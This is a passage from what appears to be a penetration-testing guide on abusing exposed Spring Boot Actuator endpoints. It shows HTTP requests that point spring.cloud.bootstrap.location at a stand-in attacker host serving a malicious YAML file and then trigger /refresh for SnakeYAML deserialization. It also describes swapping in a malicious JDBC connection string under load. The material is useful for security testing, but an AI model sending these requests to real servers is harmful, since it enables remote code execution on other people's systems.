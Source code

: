## spring.datasource.tomcat.url

`spring.datasource.tomcat.url` allows you to modify the current JDBC connection string.

The problem here is that when the application establishing the connection to the database is already running, just updating the JDBC string has no effect. But you can try using `spring.datasource.tomcat.max-active` to increase the number of simultaneous database connections.

Thus, you can change the JDBC connection string, increase the number of connections, and then send many requests to the application to simulate a heavy load. Under load, the application will create a new database connection with an updated malicious JDBC string.

![](img/current-jdbc-connection.png)

## spring.cloud.bootstrap.location

`spring.cloud.bootstrap.location` allows you to load external config and parse it in YAML format.

```http
POST /env HTTP/1.1
Host: 127.0.0.1:8090
Content-Type: application/json
Content-Length: 76
 
{"spring.cloud.bootstrap.location":"http://attacker-website.com/yaml-payload.yml"}
```

And you also need to call the `/refresh` endpoint.

```http
POST /refresh HTTP/1.1
Host: 127.0.0.1:8090
Content-Length: 0
```

When the YAML configuration is loaded from a remote server, it is parsed by the `SnakeYAML` library, which is susceptible to deserialization attacks. The payload can be generated using [marshalsec research](https://github.com/mbechler/marshalsec).

## Properties requiring /restart call
